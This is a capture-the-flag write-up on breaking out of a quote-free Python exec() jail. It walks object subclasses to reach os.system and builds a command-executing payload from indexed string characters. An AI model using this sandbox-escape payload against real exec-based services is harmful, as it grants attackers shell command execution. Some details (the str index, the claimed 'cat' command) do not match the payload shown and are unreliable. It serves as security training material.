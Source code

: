 ## Description:
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology

This challenges has us placed in a python jail where we can provide very liminted input. Providing malformed input can get us a useful error message that gives us a little insight into what exactly this jail is doing.
```python
File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
```
This tells us that our input code is running inside of a locked down exec() call. With **\_\_builtins\_\_** being set to a None object we know that the only function we have available to us is print. However, we can find another restriction in the fact that if we try to run **print("test")** we get this message.
```
🛑No quotes are allowed! 🛑

Exiting..
```
This is an important restriction to know about and one we will come back to later.
For now the goal is to run some functions that have supposedly been removed from our environment with ```'__builtins__': None```.
One thing we do have access to inside of this prompt is the use of tuples. Tuples are simple objects in python that are essentially immutable lists. An empty tuple can be created as ```()``` in python. This may not seem very helpful on it's own, but what's important about tuples in python is that they inherit from the **Object** class.
using the python built-in attribute __class__ and __bases__ we're able to return a tuple containing the classes that an object inherits from.
```python
print(().__class__.__bases__)
#Results in <class 'object'>
```
This is really good news for us as it means we can now access any of the other classes that are used in this program that also inherit from object. We can get a nice list of these different classes by running ```().__class__.__bases__[0].__subclasses__()``` which returns an array containing all of the subclasses of object that have been imported into this program.
I cleaned up the output and got the following list
```python
class 'type'
class 'weakref'
class 'weakcallableproxy'
class 'weakproxy'
class 'int'
class 'bytearray'
class 'bytes'
class 'list'
class 'NoneType'
class 'NotImplementedType'
class 'traceback'
class 'super'
class 'range'
class 'dict'
class 'dict_keys'
class 'dict_values'
class 'dict_items'
class 'dict_reversekeyiterator'
class 'dict_reversevalueiterator'
class 'dict_reverseitemiterator'
class 'odict_iterator'
class 'set'
class 'str'
class 'slice'
class 'staticmethod'
class 'complex'
class 'float'
class 'frozenset'
class 'property'
class 'managedbuffer'
class 'memoryview'
class 'tuple'
class 'enumerate'
class 'reversed'
class 'stderrprinter'
class 'code' [35]
class 'frame'
class 'builtin_function_or_method'
class 'method'
class 'function'
class 'mappingproxy'
class 'generator'

...
class 'bytes_iterator'
class 'bytearray_iterator'
class 'dict_keyiterator'
class 'dict_valueiterator'
class 'list_iterator'
class 'list_reverseiterator'
class 'range_iterator'
class 'set_iterator'
class 'str_iterator'
class 'tuple_iterator'
class 'collections.abc.Sized'
class 'collections.abc.Container'
class 'collections.abc.Callable'
class 'os._wrap_close'
class '_sitebuiltins.Quitter'
class '_sitebuiltins._Printer'
class '_sitebuiltins._Helper'
```
This is an incredibly long list, but out of it there are a couple important classes for what we're trying to accomplish.

```class 'str'``` is at postition 21 in the array and could be used to build a string without us inputting quotes.

```class 'os._wrap_close'``` is at position 132 and could be used to access the os.system() function for running commands on the server.
We will start tinkering with the os._wrap_close class first.
Doing some googling I came across this [article](https://blog.p6.is/Python-SSTI-exploitable-classes/) discussing vulnerable python classes.

At the bottom of the article they provide sample code to access system("ls") from os.__wrap_close
```python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```
This shows that if you have the os._wrap_close class you can walk up the reference using ```__init__.__globals__``` to get a dictionary of all the functions that class implements.

We can combine this with our previous command to get a long list of all functions we have access to through OS.
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)
```
This outputs
```
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions from posix or nt, e.g. unlink, stat, etc.\n  - os.path is either posixpath or ntpath\n  - os.name is either 'posix' or 'nt'\n  - os.curdir is a string representing the current directory (always '.')\n  - os.pardir is a string representing the parent directory (always '..')\n  - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n  - os.extsep is the extension separator (always '.')\n  - os.altsep is the alternate pathname separator (None or '/')\n  - os.pathsep is the component separator used in $PATH etc\n  - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n  - os.defpath is the default search path for executables\n  - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms.  Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir),
...
'system': <built-in function system>
...
```
In the middle of this incredibly long output we find the entry for **system**.
Perfect, we're almost there!

Now we have the address the elephant in the room... we still can't use quotes of any kind to build a string.<br />
The original code we want to run is ```print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['system']('ls'))```. We can do all of this except for the **system** and **ls** strings.<br />
To get around this we need to go back to the str class we found previously in the class dump. The useful aspect of this function comes from the fact that if you give it a dictionary or array, it will return the string version of that object. In python string objects can be substringed with indices the same way you would an array.
```python
print(str({'__name__': 'os'})[4]) #This results the letter n being printed
```
With this in mind we just need to pass in an object that has all the characters we need to build the string for **system** and **ls**. I decided to pass in the large function dump we got from running the above ```__init__.__globals__``` code. With this long string for our use in substringing we are now able to piece together the strings we need. I wrote a small [script](https://github.com/dwolfe884/CTFWriteups/blob/main/misc/HTBCTF_BuildYourselfIn/builder.py) to build the payload for me.

The final payload I ended up using to cat out the flag.txt file was
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[78]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[80]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[81]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[82]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[155]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]))
```
This returns our flag
```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```
